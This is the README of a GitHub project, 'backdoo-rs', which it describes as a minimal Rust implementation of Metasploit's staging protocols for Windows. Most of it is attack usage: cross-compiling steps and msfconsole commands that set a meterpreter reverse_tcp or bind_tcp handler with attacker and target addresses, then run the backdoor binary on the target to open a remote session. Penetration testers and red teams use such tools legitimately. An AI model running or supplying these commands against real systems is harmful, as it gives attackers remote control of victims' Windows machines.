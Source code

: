 # backdoo-rs
[![](https://img.shields.io/github/stars/0xdea/backdoo-rs.svg?style=flat&color=yellow)](https://github.com/0xdea/backdoo-rs)
[![](https://img.shields.io/github/forks/0xdea/backdoo-rs.svg?style=flat&color=green)](https://github.com/0xdea/backdoo-rs)
[![](https://img.shields.io/github/watchers/0xdea/backdoo-rs.svg?style=flat&color=red)](https://github.com/0xdea/backdoo-rs)
[![](https://img.shields.io/badge/twitter-%400xdea-blue.svg)](https://twitter.com/0xdea)
[![](https://img.shields.io/badge/mastodon-%40raptor-purple.svg)](https://infosec.exchange/@raptor)

> "Launch the Polaris  
> The end doesn't scare us  
> When will this cease?  
> The warheads will all rust in peace"
> 
> -- Megadeth, Rust in Peace... Polaris (1990)

Minimalistic Rust implementation of the main staging protocols used by the Metasploit Framework.
Start an `exploit/multi/handler` instance on the attack box configured to handle one of the supported
payloads, run `backdoo-rs.exe` on the target Windows system, and enjoy your session!

Blog post:  
*TBD*

See also:  
https://github.com/0xdea/tactical-exploitation/blob/master/letmein.py  
https://github.com/0xdea/tactical-exploitation/blob/master/letmein.ps1  
https://github.com/0xdea/tactical-exploitation/blob/master/letme.go

## Cross-compiling
```
[macOS example]
$ brew install mingw-w64
$ rustup target add x86_64-pc-windows-gnu
$ cargo build --release --target x86_64-pc-windows-gnu
```

## Usage
```
C:\> backdoo-rs.exe [:port | host:port]
```

## Examples
Reverse shell:
```
[on the attack box]
$ msfconsole
msf > use exploit/multi/handler
msf > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf > set LHOST 192.168.0.66
msf > exploit

[on the target box]
C:\> backdoo-rs.exe 192.168.0.66:4444
```
 
Bind shell:
```
[on the target box]
C:\> backdoo-rs.exe :4444

[on the attack box]
$ msfconsole
msf > use exploit/multi/handler
msf > set PAYLOAD windows/x64/meterpreter/bind_tcp
msf > set RHOST 192.168.0.20
msf > exploit
```

## Supported payloads
* windows/x64/meterpreter/reverse_tcp
* windows/x64/meterpreter/bind_tcp

## Tested on
* Microsoft Windows 11

